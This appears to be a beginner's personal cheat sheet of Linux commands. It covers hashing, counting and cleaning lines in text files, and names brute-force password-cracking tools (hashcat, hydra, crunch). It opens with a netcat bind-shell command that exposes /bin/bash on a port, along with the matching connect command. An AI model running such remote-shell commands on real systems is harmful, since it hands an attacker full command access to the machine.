 ```bash 

the listener :: nc -lnvp 4445 -e /bin/bash 
#(means that when he connect to ur device , your bash will run with hem and he can do whatever he want .)

the host and the hacker "let's say" :: nc 192.168.1.5 4445 -nv 

```

<p> <b> search also for socat </b> </p>


# shasum 

for achieving the integrity :: (hash)
```bash
shasum <the file name>
```


## to get the number of lines in a text file ::

```bash
cat <the file name> | wc -l
# or
cat -n <the file name> 
```

## to remove new lines from text file 

```bash
tr -d "\n"
```

## to delete empty lines from text file 

```bash
sed  '/^$/d' <text file>
# when u put -i , then it mean to modify the basix file not just to print the chamges 
```


## some basic tools for brute force attack ( cracking the password )

```bash
1- hashcat
2- hydra
3- crunch ( for making the possible passwords you can get )
```

## to find the location for a spacific folder 
